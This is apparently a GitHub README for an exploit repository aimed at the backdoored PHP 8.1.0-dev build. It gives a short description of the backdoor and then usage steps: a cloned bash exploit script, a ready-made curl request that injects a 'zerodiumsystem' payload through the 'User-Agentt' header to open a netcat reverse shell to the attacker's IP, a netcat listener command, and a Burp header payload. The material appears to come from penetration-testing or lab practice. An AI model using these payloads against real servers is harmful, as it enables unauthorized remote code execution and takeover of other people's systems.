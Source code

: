 # PHP-8.1.0-dev - Remote Code Execution 

## 1.0 Description

An early release of PHP, the PHP 8.1.0-dev version was released with a backdoor on March 28th 2021, but the backdoor was quickly discovered and removed. If this version of PHP runs on a server, an attacker can execute arbitrary code by sending the User-Agentt header.
The following bash exploit uses the backdoor to provide a shell on the host. A simple proof of concept file.

## 2.0 Usage - with a bash script

 Run the script with the host IP, your own IP + port (for the reverse shell) and enjoy your shell:

`$ git clone https://github.com/PenTestical/PHP-8.1.0-dev_RCE && cd PHP-8.1.0-dev_RCE/`

`$ chmod +x exploit.sh`

`$ bash exploit.sh`

## 2.1 Quick RCE - with cURL

The quickest way to get a reverse shell, is to use a cURL request. replace `YOUR_IP` with your attacker IP address and start a netcat listener at port `4444`.

`nc -nvlp 4444`

`curl http://10.10.10.242/ -H "User-Agentt: zerodiumsystem('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc YOUR_IP 4444 >/tmp/f');"`

## 2.2 Manual exploitation - with Burp

You can also exploit this manually by adding the

`User-Agentt: zerodiumsystem('ls');`

header in Burp Suite and sending a new HTTP request to the host.
